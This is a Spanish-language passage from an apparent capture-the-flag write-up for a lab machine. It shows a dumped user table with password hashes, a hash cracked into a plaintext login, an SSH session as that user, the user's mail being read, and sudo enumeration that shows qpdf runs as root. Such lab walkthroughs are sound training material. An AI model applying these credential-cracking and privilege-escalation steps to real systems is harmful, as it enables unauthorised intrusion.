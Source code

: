 ~~~bash
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
~~~

- Intentaré romper los hashes.
- No pude usar hashcat ni john así que utilicé `crackstation`, que me dio estas credenciales:

~~~
consuela:'simple and clean'
~~~

- Ya podemos conectarnos por `ssh`:

~~~bash
❯ ssh consuela@capiclean.htb
The authenticity of host 'capiclean.htb (10.10.11.12)' cant be established.

<---- TRASH ---->

You have mail.
consuela@iclean:~$ 
~~~

- Tenemos un mensaje al loguearnos que dice `You have mail.`.
- Podemos ir a esta ruta para ver el contenido del correo para este usuario:

~~~bash
consuela@iclean:/var/mail$ cat consuela
To: <consuela@capiclean.htb>
Subject: Issues with PDFs
From: management <management@capiclean.htb>
Date: Wed September 6 09:15:33 2023


Hey Consuela,

Have a look over the invoices, I've been receiving some weird PDFs lately.

Regards,
Management
~~~

- También vemos que podemos ejecutar un binario en especifico como `sudo`:

~~~bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
~~~
